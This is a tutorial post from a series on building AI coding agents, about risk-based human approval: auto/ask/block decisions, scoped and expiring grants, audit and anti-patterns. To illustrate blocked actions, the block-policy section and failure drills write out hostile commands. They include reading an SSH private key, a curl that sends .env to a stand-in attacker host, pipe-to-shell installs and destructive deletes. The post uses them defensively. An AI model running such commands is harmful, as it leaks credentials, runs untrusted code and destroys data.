




------
title: Learn AI Coding Agent From Scratch - Part 058
description: Human-in-the-loop approval design untuk AI coding agent: auto, ask, block, risk scoring, approval state machine, evidence packet, escalation, expiry, audit, dan UX yang tidak menghambat autonomy.
series: learn-ai-coding-agent
seriesTitle: Learn AI Coding Agent From Scratch
order: 58
partTitle: Human-in-the-Loop Approval Design
tags:
- ai-coding-agent
- human-in-the-loop
- approvals
- governance
- policy
- sandbox
- risk-management
- series
date: 2026-07-04
---

# Part 058 — Human-in-the-Loop Approval Design

Part sebelumnya membahas **secret handling dan credential boundaries**.

Sekarang kita jawab pertanyaan operasional yang paling penting:

> Kapan agent boleh melakukan aksi otomatis, kapan harus minta persetujuan manusia, dan kapan harus diblokir tanpa bertanya?

Jawaban buruk:

> Tanya user untuk semuanya.

Itu aman secara semu, tetapi agent menjadi tidak berguna.

Jawaban buruk lain:

> Biarkan agent melakukan semuanya selama CI hijau.

Itu produktif secara semu, tetapi berbahaya.

Desain yang benar adalah risk-based approval system.

Human-in-the-loop bukan tombol “Are you sure?”.

Human-in-the-loop adalah control plane untuk escalation, authority, accountability, dan trust calibration.

---

## 1. Approval Bukan Sandbox

Kita harus memisahkan dua kontrol:

| Kontrol | Fungsi |
|---|---|
| Sandbox | Membatasi apa yang secara teknis bisa disentuh agent. |
| Approval policy | Menentukan kapan agent harus berhenti dan meminta otorisasi. |

Sandbox menjawab:

> Apakah process ini bisa menulis path ini, mengakses network ini, atau menjalankan command ini?

Approval menjawab:

> Walaupun secara teknis mungkin, apakah aksi ini boleh dilakukan otomatis pada konteks task ini?

OpenAI Codex documentation juga membedakan keduanya: sandbox mendefinisikan technical boundaries, sedangkan approval policy menentukan kapan agent harus berhenti dan meminta izin saat perlu melewati boundary.

Claude Code documentation juga menempatkan default read-only permission sebagai baseline, lalu meminta explicit permission untuk tindakan seperti edit file atau menjalankan command yang bisa mengubah sistem.

Untuk Honk-like background agent, prinsipnya:

> Sandbox prevents impossible actions; approval controls risky possible actions.

---

## 2. Approval State Machine

Approval harus menjadi state machine eksplisit, bukan boolean.



Approval object minimal:

```ts
export type ApprovalDecision =
  | "not_required"
  | "requested"
  | "approved_once"
  | "approved_for_run"
  | "approved_for_policy_scope"
  | "denied"
  | "expired"
  | "revoked"
  | "blocked";

export interface ApprovalRequest {
  approvalId: string;
  runId: string;
  taskId: string;
  actionKind: string;
  riskLevel: "low" | "medium" | "high" | "critical";
  requestedBy: "agent" | "tool-runtime" | "verifier" | "pr-orchestrator";
  reason: string;
  evidence: ApprovalEvidence;
  requestedScope: ApprovalScope;
  expiresAt: string;
}

export interface ApprovalEvidence {
  summary: string;
  command?: string[];
  paths?: string[];
  network?: string[];
  diffSummary?: string;
  policyFindings?: string[];
  verificationStatus?: string;
  secretRisk?: string;
}
```

Approval harus bisa diaudit dan direplay.

---

## 3. Action Classification

Approval system dimulai dari action taxonomy.

Tidak semua action memerlukan manusia.

| Action | Contoh | Default |
|---|---|---|
| Read safe file | baca `src/main/Foo.java` | auto |
| Read sensitive path | baca `.env`, private key | block |
| Write source file | edit `src/main` dalam scope task | auto/ask tergantung risk |
| Write generated/build file | edit `target`, `dist`, generated source | ask/block |
| Delete file | hapus source/config/test | ask/high |
| Run read-only command | `git status`, `ls`, `grep` | auto |
| Run build/test command | `mvn test`, `npm test` | auto jika profile aman |
| Run destructive command | `rm -rf`, `dropdb`, `kubectl delete` | block |
| Network dependency fetch | Maven/npm registry allowlist | auto/ask |
| Arbitrary network | `curl unknown-domain` | ask/block |
| Create local commit | commit workspace patch | auto/ask |
| Push branch | remote mutation | service-mediated ask/auto by policy |
| Create PR | publish proposal | auto/ask by risk |
| Modify CI workflow | `.github/workflows/*` | ask/high |
| Modify security config | auth, IAM, policy | ask/high/critical |
| Access secret capability | registry read-only, Git PR token | brokered ask/auto |
| Cloud mutation | deploy, delete resource | block by default |

Rule penting:

> Approval is attached to semantic action, not raw command string only.

Contoh:

`mvn test` bisa aman pada Java project biasa.

Tetapi tidak aman bila repo punya malicious Maven plugin atau script yang mencoba network exfiltration.

Karena itu action classification harus memakai konteks:

- repo trust level,
- command profile,
- changed files,
- network requirement,
- credential requirement,
- previous findings,
- task risk class,
- user role,
- org policy.

---

## 4. Risk Scoring

Approval engine membutuhkan risk scoring yang jelas.

```ts
interface ActionRiskInput {
  actionKind: string;
  runMode: "analysis" | "draft" | "autonomous_pr" | "fleet";
  repoTrust: "trusted" | "unknown" | "untrusted";
  pathRisk: "safe" | "generated" | "sensitive" | "security" | "ci";
  commandRisk: "readonly" | "build" | "mutation" | "destructive";
  networkRisk: "none" | "allowlisted" | "arbitrary";
  credentialRisk: "none" | "readonly" | "write" | "cloud";
  diffRisk: "small" | "medium" | "large" | "wide";
  taskRisk: "low" | "medium" | "high" | "critical";
  policyFindings: string[];
}

interface RiskDecision {
  decision: "auto" | "ask" | "block" | "escalate";
  riskLevel: "low" | "medium" | "high" | "critical";
  reasons: string[];
  requiredApproverRole?: string;
}
```

Example policy:

```ts
function decideApproval(input: ActionRiskInput): RiskDecision {
  const reasons: string[] = [];

  if (input.pathRisk === "sensitive") {
    return block("Sensitive path access is not allowed");
  }

  if (input.commandRisk === "destructive") {
    return block("Destructive command is blocked by platform policy");
  }

  if (input.credentialRisk === "cloud") {
    return escalate("Cloud credential use requires platform admin approval");
  }

  if (input.networkRisk === "arbitrary") {
    reasons.push("Arbitrary network access requested");
  }

  if (input.pathRisk === "ci" || input.pathRisk === "security") {
    reasons.push("Security/CI configuration touched");
  }

  if (input.diffRisk === "wide" || input.taskRisk === "high") {
    reasons.push("Large or high-risk change");
  }

  if (reasons.length > 0) {
    return { decision: "ask", riskLevel: "high", reasons };
  }

  return { decision: "auto", riskLevel: "low", reasons: ["Within approved safe profile"] };
}
```

Do not hide the reasons.

A human should see why the approval is needed.

---

## 5. Approval Scope

Approval must be narrow.

Avoid vague options like:

> Allow everything.

Use scoped approvals.

| Scope | Meaning | Example |
|---|---|---|
| Once | Only this exact action | run `mvn test` once |
| For command profile | Same safe verifier command | allow `maven-test` profile this run |
| For path pattern | Writes under specific paths | allow edit `src/main/java/com/acme/foo/**` |
| For run | Similar actions during one run | allow build/test verifier for run |
| For task type | Reusable policy for low-risk migration | allow dependency read-only fetch for API migration tasks |
| For repo | Repo-level trusted setting | allow Maven test profile for this repo |
| Org managed | Admin enforced | block arbitrary network globally |

Approval grant model:

```ts
interface ApprovalGrant {
  grantId: string;
  approvalId: string;
  runId: string;
  scopeKind: "once" | "command_profile" | "path_pattern" | "run" | "task_type" | "repo" | "org";
  actionKinds: string[];
  constraints: Record<string, unknown>;
  expiresAt: string;
  maxUses?: number;
  createdBy: string;
  revocable: boolean;
}
```

Default recommendation:

> Prefer approve once. For repetitive verifier actions, allow for run. Avoid broad persistent approvals unless managed by policy.

---

## 6. Approval UX: Evidence Packet

A good approval request does not ask:

> Can I run this?

It says:

> I need to run this exact action because of this reason, within this scope, with these risks, and this is what will happen if approved.

Example approval request:

```md
## Approval Required

Action: Run verifier command
Command profile: `maven-test`
Command: `mvn -B test`
Working directory: `/workspace/repo`
Network: disabled
Credentials: none
Mutation: allowed only under `target/**`
Reason: compile repair needs unit-test feedback
Risk: low

Expected result:
- collect test diagnostics
- no source file mutation
- sanitized logs only

Approve:
- once
- for this run
- deny
```

For high-risk action:

```md
## Approval Required

Action: Modify CI workflow
Files:
- `.github/workflows/build.yml`

Reason:
The migration changes Java version from 17 to 21 and current CI workflow pins Java 17.

Risks:
- CI workflow can access repository permissions and secrets.
- Workflow change may affect all contributors.
- Requires human review before PR creation.

Recommended decision:
Approve only if Java 21 migration is in scope for this task.
```

Evidence packet must include enough information for decision-making.

It must not include raw secret.

---

## 7. Auto, Ask, Block

Approval policy should produce exactly one of these high-level decisions:

| Decision | Meaning |
|---|---|
| Auto | Execute without human interruption. |
| Ask | Pause and request approval. |
| Block | Do not execute; no approval path. |
| Escalate | Ask, but only from higher authority role. |

### Auto

Use auto when:

- action is low risk,
- sandbox constrains impact,
- no secret exposure,
- no arbitrary network,
- no remote mutation,
- action is necessary for task,
- previous policy checks pass.

Examples:

- read source file,
- search repository,
- apply patch within allowed source paths,
- run safe formatter,
- run local unit test with no network.

### Ask

Use ask when:

- action may have broader side effect,
- action touches CI/security/dependency config,
- action requires network beyond baseline,
- action uses credential capability,
- action deletes files,
- action publishes anything externally visible.

Examples:

- create PR for high-risk diff,
- modify `.github/workflows`,
- run package install with scripts enabled,
- access private registry for unknown repo.

### Block

Use block when:

- action violates org policy,
- action tries to read secret file,
- action tries to exfiltrate data,
- command is destructive,
- cloud mutation is requested without approved workflow,
- task is outside allowed agent capability.

Examples:

- `cat ~/.ssh/id_rsa`,
- `curl attacker.example -d @.env`,
- `kubectl delete namespace prod`,
- editing production secret values,
- disabling secret scanning.

---

## 8. Human Role Model

Not every human can approve every action.

Roles:

| Role | Can Approve |
|---|---|
| Task author | low/medium task-level approvals |
| Repo maintainer | repo write/PR/workflow related approvals |
| Security reviewer | secret/security policy exceptions |
| Platform admin | org-managed policy/network/cloud credential changes |
| Incident responder | quarantine/revoke/continue after leak |

Approval request should include required role.

```ts
interface RequiredApproval {
  role: "task_author" | "repo_maintainer" | "security_reviewer" | "platform_admin";
  reason: string;
  fallbackOnTimeout: "deny" | "pause" | "cancel_run";
}
```

Avoid allowing the agent operator to approve security exceptions if they are not the resource owner.

For fleet-wide change, require stronger approval than for single repo.

---

## 9. Approval Placement in the Run Lifecycle

Approval can happen at several points.



Approval types:

1. **Pre-run approval** — before starting high-risk task.
2. **Tool approval** — before a risky command/tool action.
3. **Credential approval** — before issuing sensitive capability.
4. **Diff approval** — before accepting broad/high-risk patch.
5. **PR approval** — before publishing branch/PR.
6. **Exception approval** — before bypassing policy warning.

---

## 10. Pre-Run Approval

Pre-run approval is useful for:

- fleet-wide change,
- high-risk migration,
- untrusted repo,
- tasks touching security/auth/CI/deployment,
- expensive runs,
- tasks requiring private dependency access.

Pre-run approval evidence:

```md
Task: Upgrade Spring Boot 3.2 to 3.4 across 12 services
Risk: high
Repos: 12
Expected actions:
- clone private repos
- update Maven dependencies
- run compile/test
- create draft PRs
Credentials:
- Git read access
- private Maven registry read-only
Remote mutation:
- PR creation only, no merge
Required approver: platform admin + repo owners
```

Pre-run approval prevents expensive or broad blast-radius work from starting accidentally.

---

## 11. Tool Approval

Tool approval is the most common.

Tool runtime should ask approval before executing risky actions.

```ts
async function executeTool(req: ToolRequest): Promise<ToolResult> {
  const decision = await approvalPolicy.evaluateTool(req);

  if (decision.decision === "block") {
    return blockedToolResult(decision.reasons);
  }

  if (decision.decision === "ask") {
    const approval = await approvalService.request(decision.toApprovalRequest(req));
    if (!approval.approved) {
      return deniedToolResult(approval.reason);
    }
  }

  return await dispatchTool(req);
}
```

Important:

> The model should not be able to self-approve.

Even if using an LLM-based reviewer for auto-review, it should be a separate policy-controlled reviewer path, not the same agent simply deciding that its own request is safe.

OpenAI Codex documentation describes auto-review as routing eligible sandbox-boundary approvals through a separate reviewer agent while the main agent remains in the same sandbox and under the same policy limits.

---

## 12. Credential Approval

Credential approval should be capability-specific.

Example:

```md
Approval Required: Private Maven Registry Read

Run: `run_123`
Repository: `payments-service`
Capability: `registry.maven.readonly`
TTL: 15 minutes
Network: `maven.internal.example.com` GET/HEAD only
Reason: compile verifier needs private dependency resolution
Agent visibility: no raw token exposed
Output: sanitized verifier report only
```

User should approve capability, not token.

Wrong UI:

> Show token and let agent use it.

Correct UI:

> Allow verifier profile to access private Maven registry read-only for this run.

---

## 13. Diff Approval

Diff approval happens after patch generation but before PR creation or before continuing to riskier phases.

Use diff approval when:

- diff is wide,
- many files changed,
- generated files changed,
- lockfiles changed,
- security-sensitive files changed,
- public API changed,
- tests were deleted/relaxed,
- CI workflow changed.

Diff approval packet:

```md
## Diff Approval Required

Changed files: 27
Risk flags:
- public API changed: `FooClient`
- dependency lockfile changed: `package-lock.json`
- CI workflow changed: `.github/workflows/build.yml`
- tests deleted: 1

Verification:
- compile: passed
- unit tests: passed
- secret scan: passed
- policy check: warning: workflow changed

Recommendation:
Needs repo maintainer review before PR creation.
```

Diff approval is not a replacement for code review.

It is a gate before the agent publishes or continues.

---

## 14. PR Approval

For background agent, PR creation can be auto for low-risk changes.

But not all changes should auto-publish.

Auto PR allowed when:

- task type approved,
- diff within scope,
- no sensitive files touched,
- verifier passed,
- policy checks passed,
- judge passed,
- PR body sanitized,
- branch naming valid,
- repo policy allows autonomous PR.

Ask before PR when:

- high-risk diff,
- workflow/security/dependency config changed,
- tests weakened,
- new generated files large,
- partial verification,
- flaky tests,
- human business judgment needed.

Block PR when:

- secret found in diff/body,
- verifier failed and policy disallows draft PR,
- forbidden path changed,
- task out of scope,
- license/security policy failed.

---

## 15. Approval Expiry, Cancellation, and Revocation

Approval must expire.

A grant from yesterday should not authorize a different context today.

Policy:

| Approval Kind | TTL |
|---|---|
| command once | consumed immediately |
| run-scoped verifier approval | until run end or max 1 hour |
| credential capability | 5–30 minutes |
| PR creation approval | until base SHA changes or max 1 hour |
| high-risk exception | short TTL, explicit reason |
| org policy exception | change-management process, not ad-hoc |

Approval should be invalidated when:

- base SHA changes,
- diff changes materially,
- command changes,
- target path changes,
- network target changes,
- credential scope changes,
- policy version changes,
- user revokes grant,
- run restarts from scratch.

Approval grants must be revocable.

---

## 16. Prevent Approval Fatigue

If approval system asks too often, users will approve blindly.

That is worse than no approval.

Design to reduce noise:

1. Use safe profiles for common actions.
2. Batch related approvals when semantically equivalent.
3. Explain risk concisely.
4. Provide recommended decision, but never hide risk.
5. Avoid asking for actions that should be blocked.
6. Avoid asking for trivial actions that should be auto.
7. Use run-scoped approval for repetitive safe verifier actions.
8. Use policy tuning based on metrics.

Bad:

```text
Approve command? mvn test
Approve command? mvn test
Approve command? mvn test
```

Better:

```text
Allow `maven-test` verifier profile for this run?
- command: mvn -B test
- network: disabled
- mutation: target/** only
- credentials: none
```

---

## 17. Approval Metrics

Approval system must be measured.

Metrics:

| Metric | Why it matters |
|---|---|
| approval_requests_per_run | detect friction |
| approval_auto_rate | measure autonomy |
| approval_denial_rate | detect risky tasks/tool design |
| approval_timeout_rate | detect UX/workflow issue |
| block_rate_by_policy | detect common violations |
| false_positive_ask_rate | tune policy |
| post-approval_incidents | detect under-blocking |
| risky_action_without_approval | critical invariant violation |
| approval_latency | affects run duration |
| broad_grant_usage | detect over-permission |

Target is not 100% auto.

Target is:

> Low-risk work flows automatically; high-risk work pauses with useful evidence; forbidden work is blocked early.

---

## 18. Approval Audit

Every approval decision must be auditable.

```ts
interface ApprovalAuditEvent {
  eventId: string;
  timestamp: string;
  approvalId: string;
  runId: string;
  taskId: string;
  actionKind: string;
  requestedScope: Record<string, unknown>;
  decision: "auto" | "approved" | "denied" | "blocked" | "expired" | "revoked";
  approver?: string;
  approverRole?: string;
  reason: string;
  policyVersion: string;
  evidenceArtifactId: string;
  grantId?: string;
}
```

Audit log answers:

- Siapa yang menyetujui?
- Apa yang disetujui?
- Untuk scope apa?
- Sampai kapan?
- Berdasarkan evidence apa?
- Policy versi berapa?
- Apakah action yang dieksekusi sama dengan yang disetujui?

Important invariant:

> Executed action must be covered by an approval grant or an auto policy decision.

---

## 19. Auto-Review vs Human Approval

Beberapa sistem memakai reviewer agent untuk menggantikan approval tertentu.

Ini bisa berguna, tetapi harus dibatasi.

Auto-review cocok untuk:

- command low/medium risk,
- repetitive sandbox-boundary decision,
- verifying whether action matches policy,
- reducing approval fatigue.

Auto-review tidak cocok untuk:

- broad secret access,
- destructive command,
- production cloud mutation,
- org policy exception,
- legal/compliance judgment,
- human ownership decision,
- security-sensitive workflow change.

Jika memakai auto-review:

1. reviewer agent harus terpisah dari actor agent,
2. reviewer melihat evidence packet, bukan raw secret,
3. reviewer output harus structured,
4. deterministic policy tetap menang,
5. high-risk action tetap human/security approval,
6. all decisions audited.



Reviewer agent is optimization, not authority root.

---

## 20. Human-in-the-Loop for Fleet Changes

Fleet-wide change needs stronger approval design.

Example:

> Migrate 500 repos from Java 17 to Java 21.

Do not approve all repos blindly.

Use staged approval:

1. approve campaign definition,
2. run dry-run on sample repos,
3. review sample PRs,
4. approve batch 1,
5. monitor CI/review feedback,
6. approve expansion,
7. stop/rollback on failure threshold.



Fleet approval evidence:

- target repo list,
- selection criteria,
- excluded repos,
- migration prompt contract,
- risk classification,
- verifier profile,
- rollback/stop policy,
- sample diff,
- expected PR body,
- cost estimate,
- owner notification plan.

---

## 21. Approval Anti-Patterns

### Anti-pattern 1 — Prompt-based permission only

Bad:

```md
Never do dangerous things.
```

Not enough.

Permission must be enforced outside model.

### Anti-pattern 2 — Ask for everything

This creates fatigue.

People approve blindly.

### Anti-pattern 3 — Broad session approval

Bad:

```text
Allow all commands for this session?
```

Better:

```text
Allow `maven-test` profile with no network and target/** mutation only for this run?
```

### Anti-pattern 4 — Human sees no evidence

Approval request without scope/risk/evidence is just gambling.

### Anti-pattern 5 — Approval not bound to action hash

If user approved command A, agent must not execute command B.

Approval grant should bind to action hash:

```ts
const actionHash = hashCanonical({
  actionKind,
  argv,
  cwd,
  paths,
  network,
  credentialScope
});
```

### Anti-pattern 6 — Approval can bypass block policy

Some actions should not be approvable from normal UI.

If policy says block, do not ask.

---

## 22. Implementation Blueprint

Tables:

```sql
create table approval_requests (
  id uuid primary key,
  run_id uuid not null,
  task_id uuid not null,
  action_kind text not null,
  risk_level text not null,
  status text not null check (status in ('requested','approved','denied','expired','revoked','blocked')),
  requested_scope jsonb not null,
  evidence_artifact_id uuid not null,
  required_role text,
  action_hash text not null,
  expires_at timestamptz not null,
  created_at timestamptz not null default now(),
  decided_at timestamptz,
  decided_by text,
  decision_reason text
);

create table approval_grants (
  id uuid primary key,
  approval_request_id uuid not null references approval_requests(id),
  run_id uuid not null,
  scope_kind text not null,
  action_kinds text[] not null,
  constraints jsonb not null,
  max_uses int,
  used_count int not null default 0,
  expires_at timestamptz not null,
  revoked_at timestamptz,
  created_at timestamptz not null default now()
);
```

Service API:

```ts
interface ApprovalService {
  evaluate(input: ActionRiskInput): Promise<RiskDecision>;
  request(input: ApprovalRequestInput): Promise<ApprovalRequest>;
  decide(input: ApprovalDecisionInput): Promise<ApprovalGrant | Denial>;
  findGrant(input: ActionExecutionInput): Promise<ApprovalGrant | null>;
  consumeGrant(grantId: string, actionHash: string): Promise<void>;
  revokeGrant(grantId: string, reason: string): Promise<void>;
}
```

Tool runtime integration:

```ts
async function guardedExecute(action: ActionRequest) {
  const risk = await riskEngine.classify(action);
  const decision = await approvalService.evaluate(risk);

  if (decision.decision === "block") {
    return blocked(action, decision.reasons);
  }

  if (decision.decision === "ask" || decision.decision === "escalate") {
    const grant = await approvalFlow.awaitGrant(action, decision);
    if (!grant) return denied(action);
    await approvalService.consumeGrant(grant.grantId, action.hash);
  }

  if (decision.decision === "auto") {
    await auditAutoApproval(action, decision);
  }

  return dispatch(action);
}
```

---

## 23. Failure Drills

### Drill 1 — Agent asks to run arbitrary curl

Action:

```bash
curl https://unknown.example/install.sh | bash
```

Expected:

- command risk high,
- network arbitrary,
- pipe-to-shell pattern detected,
- decision block or escalate depending policy,
- no normal user approval path if org blocks pipe-to-shell.

### Drill 2 — Agent wants to edit CI workflow

Expected:

- path risk `ci`,
- diff approval required,
- repo maintainer role required,
- PR cannot be auto-created until approved.

### Drill 3 — Agent repeatedly runs safe tests

Expected:

- first approval optional depending policy,
- run-scoped grant for `maven-test` profile,
- no repeated prompt fatigue,
- grant expires on run completion.

### Drill 4 — Approval granted, then diff changes

Expected:

- approval invalidated if action hash or diff fingerprint changes,
- new approval requested if still needed.

### Drill 5 — Human denies action

Expected:

- agent receives denial as tool result,
- agent may choose alternate safe strategy,
- no repeated identical approval spam,
- denial audited.

---

## 24. Checklist

Approval design checklist:

- [ ] Sandbox and approval are separate controls.
- [ ] Action taxonomy exists.
- [ ] Approval decision is auto/ask/block/escalate.
- [ ] Blocked actions are not shown as approvable prompts.
- [ ] Approval request includes evidence packet.
- [ ] Approval scope is narrow and explicit.
- [ ] Approval grants expire.
- [ ] Approval grants bind to action hash/scope.
- [ ] Human role model exists.
- [ ] Credential approvals grant capability, not raw secret.
- [ ] PR approval is separated from code edit approval.
- [ ] High-risk diff requires diff approval.
- [ ] Fleet changes use staged approval.
- [ ] Approval audit is complete.
- [ ] Metrics detect fatigue and under-blocking.
- [ ] Agent cannot self-approve.

---

## 25. Key Takeaways

Human-in-the-loop bukan lawan autonomy.

Human-in-the-loop adalah mekanisme agar autonomy bisa dipercaya.

Desain yang matang membuat low-risk work berjalan otomatis, high-risk work berhenti dengan evidence yang jelas, dan forbidden work diblokir tanpa drama.

Prinsip utama:

1. **Approval is policy, not politeness.**
2. **Ask only when human judgment adds value.**
3. **Block what should never happen.**
4. **Approve scope, not vague intent.**
5. **Bind approval to action hash and context.**
6. **Make approvals expire and revocable.**
7. **Measure approval fatigue.**
8. **Never let the actor agent approve itself.**

Part berikutnya membahas **observability, tracing, and replay**: bagaimana melihat apa yang dilakukan agent, mengapa ia melakukannya, dan bagaimana mereplay run untuk debugging, audit, dan evaluasi.

---

## References

- OpenAI Codex Docs — Agent approvals and security: https://developers.openai.com/codex/agent-approvals-security
- OpenAI Codex Docs — Sandboxing: https://developers.openai.com/codex/concepts/sandboxing
- OpenAI Codex Docs — Permissions: https://developers.openai.com/codex/permissions
- OpenAI Codex Docs — Auto-review: https://developers.openai.com/codex/concepts/sandboxing/auto-review
- Anthropic Claude Code Docs — Security: https://docs.anthropic.com/en/docs/claude-code/security
- Anthropic Claude Code Docs — Settings and permission scopes: https://docs.anthropic.com/en/docs/claude-code/settings
- Anthropic Claude Code Docs — Hooks guide: https://docs.anthropic.com/en/docs/claude-code/hooks-guide
